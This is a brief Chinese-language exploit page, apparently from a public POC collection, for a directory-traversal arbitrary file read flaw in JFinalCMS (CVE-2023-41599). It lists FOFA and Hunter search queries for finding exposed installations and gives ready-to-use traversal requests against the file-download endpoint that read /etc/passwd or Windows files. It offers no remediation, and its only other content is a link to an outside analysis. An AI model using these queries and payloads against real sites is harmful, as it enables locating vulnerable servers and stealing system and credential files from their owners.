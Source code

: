 ## JFinalCMS 任意文件读取漏洞(CVE-2023-41599)


## 特征
```
fofa:
body="content=\"JreCms"

hunter:
web.body="content=\"JreCms"
```
## POC
```
Windows: /../../../../../../../../../test.txt
Linux:	/../../../../../../../../../etc/passwd

/command/down/file?filekey=/../../../../../../../../../etc/passwd
```


## 漏洞分析
http://www.so1lupus.ltd/2023/08/28/Directory-traversal-in-JFinalCMS/

